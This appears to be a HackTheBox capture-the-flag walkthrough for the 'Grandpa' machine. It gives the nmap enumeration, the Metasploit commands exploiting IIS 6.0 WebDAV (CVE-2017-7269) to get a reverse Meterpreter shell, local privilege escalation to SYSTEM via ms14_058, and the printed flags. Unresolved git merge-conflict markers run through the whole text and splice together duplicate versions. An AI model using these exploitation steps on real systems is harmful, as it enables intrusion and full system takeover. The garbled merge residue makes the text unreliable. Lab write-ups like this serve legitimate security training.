









# HackTheBox Walkthrough - Grandpa

**Machine Name**: Grandpa  
**Target IP**: 10.129.95.233  
**Difficulty**: Easy  
**Objective**: Exploit IIS 6.0 and escalate privileges to get both user and root flags.

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Grandpa 10.129.95.233
```
<<<<<<< HEAD
<<<<<<< HEAD

=======
>>>>>>> 9f1f476 (Add files via upload)
=======

>>>>>>> bbca5bf (Update README.md)

**Results:**
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Sun, 27 Jul 2025 12:26:38 GMT
|_  WebDAV type: Unknown
|_http-server-header: Microsoft-IIS/6.0
```

---

## 💥 Exploitation

### 🔓 Exploit IIS 6.0 WebDav (CVE-2017-7269)

<<<<<<< HEAD
<<<<<<< HEAD
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  

=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)
>>>>>>> 9f1f476 (Add files via upload)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  

>>>>>>> bbca5bf (Update README.md)

```bash
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.95.233
set LHOST 10.10.14.156
run
```
<<<<<<< HEAD
<<<<<<< HEAD


> Meterpreter session opened.


=======

> Meterpreter session opened.

---
>>>>>>> 9f1f476 (Add files via upload)
=======


> Meterpreter session opened.


>>>>>>> bbca5bf (Update README.md)

### 📍 Migrate Session (Stabilize)

```bash
ps
migrate 1896  # wmiprvse.exe
getuid
```
<<<<<<< HEAD
<<<<<<< HEAD

=======
>>>>>>> 9f1f476 (Add files via upload)
=======

>>>>>>> bbca5bf (Update README.md)

**Result**:
```
Server username: NT AUTHORITY\NETWORK SERVICE
```

---

## 🔧 Privilege Escalation

### 🔍 Use `local_exploit_suggester`

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```
<<<<<<< HEAD
<<<<<<< HEAD

=======
>>>>>>> 9f1f476 (Add files via upload)
=======

>>>>>>> bbca5bf (Update README.md)

**Vulnerable Suggestions:**
- ms14_058_track_popup_menu
- ms14_070_tcpip_ioctl
- ms15_051_client_copy_image
- ms16_016_webdav
- ppr_flatten_rec
- etc...

### 🚀 Use `ms14_058_track_popup_menu`

```bash
use exploit/windows/local/ms14_058_track_popup_menu
set SESSION 1
set LHOST 10.10.14.156
run
```
<<<<<<< HEAD
<<<<<<< HEAD

=======
>>>>>>> 9f1f476 (Add files via upload)
=======

>>>>>>> bbca5bf (Update README.md)

```bash
getuid
```

**Result**:
```
Server username: NT AUTHORITY\SYSTEM
```

---

## 🧑‍💻 User Flag

```bash
cat C:\Users\[USERNAME]\Desktop\user.txt
```
<<<<<<< HEAD
<<<<<<< HEAD

=======

**Flag**:
```
bdff5ec67c3cff017f2bedc146a5d869
```
>>>>>>> 9f1f476 (Add files via upload)
=======

>>>>>>> bbca5bf (Update README.md)

---

## 👑 Root Flag

```bash
cat C:\Users\Administrator\Desktop\root.txt
```
<<<<<<< HEAD
<<<<<<< HEAD

=======

**Flag**:
```
9359e905a2c35f861f6a57cecf28bb7b
```
>>>>>>> 9f1f476 (Add files via upload)
=======

>>>>>>> bbca5bf (Update README.md)

---
